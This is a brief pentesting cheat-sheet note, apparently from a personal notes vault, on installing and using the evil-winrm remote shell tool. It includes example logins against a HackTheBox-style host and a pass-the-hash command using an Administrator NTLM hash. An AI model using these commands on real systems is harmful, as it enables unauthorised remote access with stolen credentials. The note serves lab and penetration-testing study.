 ```yaml
---
tags:
  - Exploitation
  - RemoteShells
  - Tooling
---
```

[GitHub - Hackplayers/evil-winrm: The ultimate WinRM shell for hacking/pentesting](https://github.com/Hackplayers/evil-winrm)

## Installation

```shell-session
sudo gem install evil-winrm
```

## Usage 

```shell-session
evil-winrm -i <target-IP> -u <username> -p <password>
```

```
evil-winrm -i love.htb -u quas4r -p quas4r@123
```

### Pass-the-Hash

```shell-session
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```
